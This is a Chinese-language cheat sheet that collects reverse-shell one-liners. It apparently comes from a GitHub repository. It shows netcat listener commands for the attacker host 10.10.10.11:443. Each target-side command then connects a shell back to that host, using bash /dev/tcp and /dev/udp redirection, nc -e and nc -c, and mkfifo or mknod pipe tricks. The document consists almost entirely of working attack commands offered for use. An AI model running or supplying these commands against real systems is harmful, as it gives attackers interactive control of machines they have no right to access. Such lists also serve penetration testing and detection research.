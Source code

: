 # 反弹shell方法汇总

假设本机地址10.10.10.11，监听端口443。

## 1、Bash环境下反弹TCP协议shell

首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：
```bash
bash -i >& /dev/tcp/10.10.10.11/443 0>&1
```
```bash
/bin/bash -i > /dev/tcp/10.10.10.11/443 0<& 2>&1
```
```bash
exec 5<>/dev/tcp/10.10.10.11/443;cat <&5 | while read line; do $line 2>&5 >&5; done
```
```bash
exec /bin/sh 0</dev/tcp/10.10.10.11/443 1>&0 2>&0
```
```bash
0<&196;exec 196<>/dev/tcp/10.10.10.11/443; sh <&196 >&196 2>&196
```

## 2、Bash环境下反弹UDP协议shell:

首先在本地监听UDP协议443端口
```bash
nc -u -lvp 443
```
然后在靶机上执行如下命令：
```bash
sh -i >& /dev/udp/10.10.10.11/443 0>&1
```

## 3、使用Netcat反弹shell
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：
```bash
nc -e /bin/sh 10.10.10.11 443
```
```bash
nc -e /bin/bash 10.10.10.11 443
```
```bash
nc -c bash 10.10.10.11 443
```
```bash
mknod backpipe p && nc 10.10.10.11 443 0<backpipe | /bin/bash 1>backpipe 
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.11 443 >/tmp/f
```
```bash
rm -f /tmp/p; mknod /tmp/p p && nc 10.10.10.11 443 0/tmp/p 2>&1
```
```bash
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 10.10.10.11 443 > f
```
```bash
rm -f x; mknod x p && nc 10.10.10.11 443 0<x | /bin/bash 1>x
```